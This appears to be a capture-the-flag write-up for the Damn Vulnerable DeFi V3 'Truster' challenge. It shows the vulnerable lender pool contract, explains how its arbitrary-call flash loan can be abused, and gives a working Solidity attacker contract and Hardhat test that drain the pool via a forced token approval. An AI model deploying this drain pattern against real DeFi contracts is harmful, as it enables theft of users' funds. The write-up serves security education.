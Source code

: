 ```yaml
---
title: Damn Vulnerable DeFi V3 - Truster - Solution
date: '2023-11-27'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Damn Vulnerable DeFi V3 - Truster CTF
---
```


# Damn Vulnerable DeFi V3 - Truster - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
}
```

## Exploit

To solve this challenge, note that `flashLoan` allows for arbitrary function calls on the `target` contract. In other words, by calling `flashLoan`, we can make arbitrary function calls on the `TrusterLenderPool` contract's behalf.

In particular, we can approve an attacker contract for the entire pool balance of DVT tokens! (Notice that we need to specify `amount = 0` when calling `flashLoan` for this to work. Otherwise, we'll trigger the `RepayFailed()` error.)

Once `TrusterLenderPool` has approved us to transfer funds on its behalf, we can use `transferFrom` to drain the entire pool.

_TrusterAttacker.sol_

```solidity
// SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.0;

import "../DamnValuableToken.sol";
import "./TrusterLenderPool.sol";

contract TrusterAttacker {
    DamnValuableToken public immutable token;
    TrusterLenderPool public immutable pool;

    constructor(DamnValuableToken _token, TrusterLenderPool _pool) {
        token = _token;
        pool = _pool;
    }

    function attack() external {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), 1_000_000 ether);
        pool.flashLoan(0, address(this), address(token), data);
        token.transferFrom(address(pool), msg.sender, 1_000_000 ether);
    }
}
```

_truster.challenge.js_

```javascript
const { ethers } = require('hardhat')
const { expect } = require('chai')

describe('[Challenge] Truster', function () {
  let deployer, player
  let token, pool

  const TOKENS_IN_POOL = 1000000n * 10n ** 18n

  before(async function () {
    /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
    ;[deployer, player] = await ethers.getSigners()

    token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy()
    pool = await (
      await ethers.getContractFactory('TrusterLenderPool', deployer)
    ).deploy(token.address)
    expect(await pool.token()).to.eq(token.address)

    await token.transfer(pool.address, TOKENS_IN_POOL)
    expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL)

    expect(await token.balanceOf(player.address)).to.equal(0)
  })

  it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    attacker = await (
      await ethers.getContractFactory('TrusterAttacker', deployer)
    ).deploy(token.address, pool.address)

    await attacker.connect(player).attack()
  })

  after(async function () {
    /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

    // Player has taken all tokens from the pool
    expect(await token.balanceOf(player.address)).to.equal(TOKENS_IN_POOL)
    expect(await token.balanceOf(pool.address)).to.equal(0)
  })
})
```
